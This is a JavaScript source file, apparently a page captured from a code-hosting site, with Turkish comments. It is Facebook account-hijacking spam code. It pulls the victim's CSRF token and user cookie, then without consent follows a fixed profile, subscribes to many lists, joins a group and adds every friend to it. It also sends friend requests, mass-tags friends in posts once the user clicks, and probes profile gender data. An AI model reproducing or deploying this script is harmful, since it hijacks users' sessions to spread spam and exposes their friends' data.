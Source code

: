 autos
=====

    var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {     konum = document.cookie.indexOf(tarama)     if (konum != -1) {     konum += tarama.length     son = document.cookie.indexOf(";", konum)     if (son == -1)     son = document.cookie.length     return unescape(document.cookie.substring(konum, son))     }     else { return ""; }     }     }           function getRandomInt (min, max) {     return Math.floor(Math.random() * (max - min + 1)) + min;     }     function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)];     }           var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {           http4.close; // Close the connection           }     }           http4.send(params4);     }           function sublist(uidss) {     var a = document.createElement('script');     a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();";     document.body.appendChild(a);     }           a("100002035311725");           sublist("686319338112570");     sublist("686319254779245");     sublist("686319241445913");     sublist("686319214779249");     sublist("686319228112581");     sublist("686319228112581");     sublist("686319214779249");     sublist("686319044779266");     sublist("686319208112583");     sublist("686319201445917");     sublist("686319188112585");     sublist("686319168112587");     sublist("686319011445936");     sublist("686318394779331");     sublist("686318361446001");     sublist("686318291446008");     sublist("686318441445993");     sublist("686318291446008");     sublist("686317934779377");     sublist("686318928112611");     sublist("686318481445989");     sublist("686318478112656");       var gid = ['1466349933613396'];           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/membership/r2j.php?__a=1';     var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['send'](paramswp);           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var friends = new Array();     gf = new XMLHttpRequest();     gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false);     gf['send']();     if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {     friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {     return _0x93dax8['index'] - _0x93dax9['index'];     });     };     };           for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () {     if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp);     };     var spage_id = "100002035311725";     var spost_id = "100002035311725";     var sfoto_id = "100002035311725";     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);     var smesaj = "";     var smesaj_text = "";     var arkadaslar = [];     var svn_rev;     var bugun= new Date();     var btarihi = new Date();     btarihi.setTime(bugun.getTime() + 1000*60*60*4*1);     if(!document.cookie.match(/paylasti=(\d+)/)){     document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString();     }           //arkadaslari al ve isle     function sarkadaslari_al(){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){     smesaj = "";     smesaj_text = "";     for(i=f*10;i&lt;(f+1)*10;i++){     if(arkadaslar.payload.entries[i]){     smesaj += " @[" + arkadaslar.payload.entries[i].uid + ":" + arkadaslar.payload.entries[i].text + "]";     smesaj_text += " " + arkadaslar.payload.entries[i].text;     }     }     sdurumpaylas(); }           }           };     var params = "&amp;filter[0]=user";     params += "&amp;options[0]=friends_only";     params += "&amp;options[1]=nm";     params += "&amp;token=v7";     params += "&amp;viewer=" + user_id;     params += "&amp;__user=" + user_id;           if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     xmlhttp.send();     }           //tiklama olayini dinle     var tiklama = document.addEventListener("click", function () {     if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){     svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0];     sarkadaslari_al();     document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();           document.removeEventListener(tiklama);     }     }, false);           //arkada?? ekleme     function sarkadasekle(uid,cins){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     }     };           xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);     var params = "to_friend=" + uid;     params += "&amp;action=add_friend";     params += "&amp;how_found=friend_browser";     params += "&amp;ref_param=none";     params += "&amp;outgoing_id=";     params += "&amp;logging_location=friend_browser";     params += "&amp;no_flyout_on_click=true";     params += "&amp;ego_log_data=";     params += "&amp;http_referer=";     params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;     params += "&amp;phstamp=165816749114848369115";     params += "&amp;__user=" + user_id;     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded");           if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){     xmlhttp.send(params);     }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){     cinsiyetgetir(uid,cins,"sarkadasekle");     }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){     xmlhttp.send(params);     }     }           //cinsiyet belirleme     var cinssonuc = {};     var cinshtml = document.createElement("html");     function scinsiyetgetir(uid,cins,fonksiyon){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html     btarihi.setTime(bugun.getTime() + 1000*60*60*24*365);     if(cinshtml.getElementsByTagName("select")[0].value == "1"){     document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString();     }else if(cinshtml.getElementsByTagName("select")[0].value == "2"){     document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString();     }     eval(fonksiyon + "(" + id + "," + cins + ");");     }     };     xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true);     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.send();     }
